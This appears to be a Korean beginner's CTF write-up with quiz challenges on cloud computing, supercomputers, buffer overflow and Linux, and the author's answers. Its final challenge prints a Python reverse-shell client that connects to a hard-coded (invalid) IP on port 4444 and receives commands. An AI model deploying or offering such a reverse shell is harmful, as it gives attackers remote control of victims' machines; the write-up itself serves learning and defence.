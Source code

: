 `안녕하세요ㅎ` ~~저리가세요~~

-----

## FOR NEWBIE!

### Guatemala : C....
```
이것이란 집적·공유된 정보통신기기, 정보통신설비, 소프트웨어 등 정보통신자원을 이용자의 요구나 수요 변화에 따라 정보통신망을 통하여 신축적으로 이용할 수 있도록 하는 정보처리체계를 말한다. 이것은 무엇인가?
Flag is EN
```

클라우드컴퓨팅 발전 및 이용자 보호에 관한 법률 제 2조(정의)에 나오는 클라우드컴퓨팅의 정의 내용과 일치한다. 
정확히 뭐였는지 기억은 안나는데 영어로 쓰라고 했으니 아마 `Cloud Computing`이랑 비슷한 거였을 듯.

### Brazil : SuperDuper!
```
여러대의 컴퓨터를 병렬로 연결하여 다른 컴퓨터보다 월등히 높은 성능을 내는 컴퓨터를 뭐라하는가?
```

컴퓨터 클러스터링 -> !!!

`슈퍼컴퓨터`

### Mauritania : Over...
```
이것은 버그의 일종으로 프로그램이 실행될 때 입력받는 값이 버퍼를 가득 채우다 못해 넘쳐흘러 버퍼 이후의 공간을 침범하는 현상이다. 이 버그를 이용한 공격의 취약점은 무엇인가?(줄여서)
```

버퍼오버플로우 취약점

`BOF`

### Angola : The kernel?
```
Unix기반의 커널의 혹은 그 커널을 사용하는 운영 체제를 뜻하는 말로, 이 커널을 사용한 OS는 대표적으로 우분투,CentOS 등이 있다. 이 커널은 무엇인가?
```

`리눅스`

### Yemen : Firewall?
```
본 소스코드는 zombie.py의 클라이언트 프로그램이다. 해당 공격을 막기 위해서는 무엇을 해야하는가? Flag:OOOO를 입력)OOO번 포트를 _OOO으로_차단해야_한다.
```

우와~!

```python
#-*- coding: utf-8 -*-
import socket
import os
print("RS Tool_Client")
HOST='36.325.51.114'
PORT=4444
clientSock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
clientSock.connect((HOST,PORT))
clientSock.send('[*] Connection Established'.encode('utf-8'))
while 1:
    data=clientSock.recv(1024)
    if data=="quit":
        break
    # print(str(data))
    data=str(data)
    procdata=data.replace("b","",1)
    newdata=procdata.replace("'","",2)
    # print(newdata)
```